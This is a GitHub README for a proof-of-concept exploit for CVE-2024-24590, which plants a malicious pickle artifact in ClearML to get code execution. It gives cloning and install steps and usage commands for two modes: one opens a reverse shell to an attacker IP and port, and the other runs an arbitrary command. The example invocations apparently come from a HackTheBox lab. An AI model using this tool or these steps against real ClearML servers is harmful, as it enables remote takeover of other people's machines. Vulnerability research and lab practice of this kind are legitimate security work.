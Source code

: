 # ClearML Exploit Script

This repository contains a Python exploit script for CVE-2024-24590 The script is designed to upload a malicious pickle file to ClearML, which executes a reverse shell or a custom command.

## Features

- Uploads a malicious pickle artifact to ClearML.
- Executes a reverse shell or a custom command on the target machine.
- Supports custom project and task names.
- Allows setting a tag on the task.

## Usage

### Prerequisites

- Python 3.x
- ClearML SDK
- argparse (usually included with Python)

### Installation

1. Clone the repository:

    ```bash
    git clone https://github.com/diegogarciayala/CVE-2024-24590-ClearML-RCE-CMD-POC.git
    cd CVE-2024-24590-ClearML-RCE-CMD-POC
    ```

2. Install the ClearML SDK:

    ```bash
    pip install clearml
    clearml-init
    ```

### Running the Script

The script supports two modes of operation: `default` and `cmd`.

#### Default Mode

In this mode, you must provide the attacker's IP and port to establish a reverse shell.

```bash
python3 exploit.py default <project_name> <task_name> <attacker_ip> <attacker_port>
```

#### CMD Mode 

In this mode, you can provide a custom command to be executed. 

```bash
python3 exploit.py cmd <project_name> <task_name> --cmd "<your_command>"
```

#### Examples 

```bash
python3 exploit.py default "Black Swan" "pwned4" "10.10.14.10" "1234"
```

```bash
python3 exploit.py cmd "Black Swan" "pwned4" --cmd "touch /tmp/shell.sh"
```

#### whoami
- HackTheBox: sl4sh1t0
- Telegram: sl4sh1t0
- X (Twitter): @diegogarciayala

#### Credits
https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/
